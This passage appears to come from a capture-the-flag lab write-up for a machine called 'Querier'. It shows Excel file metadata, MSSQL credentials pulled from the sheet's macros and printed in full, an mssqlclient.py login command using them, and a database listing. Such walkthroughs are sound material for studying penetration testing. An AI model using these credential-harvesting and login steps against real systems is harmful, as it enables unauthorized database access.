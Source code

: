 ```bash
Zip Compression                 : Deflated
Zip Modify Date                 : 1980:01:01 00:00:00
Zip CRC                         : 0x513599ac
Zip Compressed Size             : 367
Zip Uncompressed Size           : 1087
Zip File Name                   : [Content_Types].xml
Creator                         : Luis
Last Modified By                : Luis
Create Date                     : 2019:01:21 20:38:56Z
Modify Date                     : 2019:01:27 22:21:34Z
Application                     : Microsoft Excel
Doc Security                    : None
Scale Crop                      : No
Heading Pairs                   : Worksheets, 1
Titles Of Parts                 : Currency Volume
Company                         :
Links Up To Date                : No
Shared Doc                      : No
Hyperlinks Changed              : No
App Version                     : 16.0300

```

After poking around for a bit I opened up the macros in the sheet, and find what appears to be a user and pass that is valid for connecting to the open MSSQL port.

```bash
conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
``` 


## Foothold

We can use mssqlclient.py to connect in.

```bash
mssqlclient.py 'reporting:PcwTWTHRwryjc$c6'@10.10.10.125 -db volume -windows-auth
``` 

From there I did some enumeration like looking at the tables and databases but didn't get much.

```bash
SQL> SELECT name FROM master.dbo.sysdatabases;
name                                                                                                    
--------------------------------------------------------------------------------------------------------------------------------
master                                                                                                  
tempdb                                                                                                  
model                                                                                                   
msdb                                                                                                    
volume 
```
